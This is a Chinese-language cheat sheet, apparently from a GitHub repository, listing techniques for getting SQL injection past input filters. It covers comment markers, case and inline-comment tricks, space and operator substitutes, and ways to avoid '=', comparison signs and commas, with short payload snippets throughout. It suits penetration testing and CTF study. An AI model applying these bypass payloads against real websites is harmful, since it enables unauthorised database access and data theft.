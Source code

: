 # sql注入绕过
## 注释符
```py
/**/
--+
#
;堆注入等
```
## 函数绕过
```py
1.大小写绕过
2.双写绕过
3.内联注释绕过 # 1'union /*!select*/ 1,2,3;
4.编码绕过(16进制，ascii编码绕过)
```
## 空格绕过
```py
/**/
() # select(id)from(users)
回车(url编码中的%0a)
`(tap键上面的按钮)
tap
两个空格
```
# 过滤or and xor not 绕过
```py
and = &&
or = ||
xor = | # 异或
not = !
```
# 绕过=
```py
like
rlike
regexp
<> #相当于!=
```
# 绕过大于小于号
```py
1. greatest(n1, n2, n3…):返回n中的最大值  #可以greatest(n)=1 判断n是否等于1
2.least(n1,n2,n3…):返回n中的最小值 # 与上同理
3.strcmp(str1,str2) # 判断str1和str2是否相等
4.in # substr(username,1,1) in ('t')
5.between a and b #在a和b中间   and substr(username,1,1) between 't' and 't'
```
# 绕过逗号
```py
1.from pos for len # 常规 select substr("string",1,3); == select substr("string" from 1 for 3);
2.join # union select 1,2,3 == union select * from (select 1)a join (select 2)b join(select 3)c
3.like# 适用于substr()等提取子串的函数中的逗号 select user() like "r%"; == select ascii(substr(user(),1,1))=114;
4.offset #适用于limit中的逗号被过滤的情况  limit 2,1 == limit 1 offset 2
```

